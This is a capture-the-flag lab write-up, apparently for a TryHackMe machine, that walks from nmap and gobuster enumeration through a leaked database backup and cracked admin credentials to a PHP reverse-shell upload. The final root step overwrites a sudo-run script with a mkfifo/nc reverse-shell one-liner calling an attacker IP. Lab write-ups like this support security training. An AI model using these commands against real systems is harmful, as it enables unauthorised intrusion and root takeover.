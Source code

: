 > Author: jak010  
> Date: 2021.05.23

## Scan
- Command
	```sh
	$ nmap -sC -sV EXPORT_IP
	```
- Result
	```text
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 12:19 EDT
	Nmap scan report for 10.10.228.53
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
	|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
	|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	```

## Enumeration
- `Web`
	- Directory Brute Forcing
		```
		...
		Gobuster v3.1.0
		by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
		===============================================================
		[+] Url:                     http://10.10.228.53
		[+] Method:                  GET
		[+] Threads:                 10
		[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
		[+] Negative Status codes:   404
		[+] User Agent:              gobuster/3.1.0
		[+] Timeout:                 10s
		===============================================================
		2021/05/22 12:22:44 Starting gobuster in directory enumeration mode
		===============================================================
		/content              (Status: 301) [Size: 314] [--> http://10.10.228.53/content/]
		...
		```
		```
		===============================================================
		Gobuster v3.1.0
		by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
		===============================================================
		[+] Url:                     http://10.10.228.53/content
		[+] Method:                  GET
		[+] Threads:                 10
		[+] Wordlist:                raft-large-directories-lowercase.txt
		[+] Negative Status codes:   404
		[+] User Agent:              gobuster/3.1.0
		[+] Timeout:                 10s
		===============================================================
		2021/05/22 12:48:28 Starting gobuster in directory enumeration mode
		===============================================================
		/images               (Status: 301) [Size: 321] [--> http://10.10.228.53/content/images/]
		/js                   (Status: 301) [Size: 317] [--> http://10.10.228.53/content/js/]    
		/inc                  (Status: 301) [Size: 318] [--> http://10.10.228.53/content/inc/]   
		/_themes              (Status: 301) [Size: 322] [--> http://10.10.228.53/content/_themes/]
		/attachment           (Status: 301) [Size: 325] [--> http://10.10.228.53/content/attachment/]
		/as                   (Status: 301) [Size: 317] [--> http://10.10.228.53/content/as/]   
		```
	- Web CMS Version : `SeetRice`

## Leaked DataBase Backup File 
- `http://10.10.228.53/content/inc/mysql_backup/`
	```sh
	..42f749ade7f9e195bf475f37a44cafcb
	```
	- crackstation decrypt
- Credential
	- manager:Password123

## Gaining Access
- Admin Page : `http://10.10.228.53/content/as`
	- Source Changes
		- Reverse Shell : php-reverse-shell.php
		- `http://10.10.228.53/content/as/?type=theme&mode=save&page=Category%20page%20template.`
- Access Page : `http://10.10.228.53/content/_themes/default/cat.php`


## PRIVILEGE ESCALATE
- sudo -l
	```
	Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
	```
- Walk-Thought
	```sh
	$ cat /home/itguy/backup.pl
	#!/usr/bin/perl
	system("sh", "/etc/copy.sh");
	$ cat /etc/copy.sh
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.26.67 5001 >/tmp/f" > /etc/copy.sh
	```
	- ReverShell Listen && Root 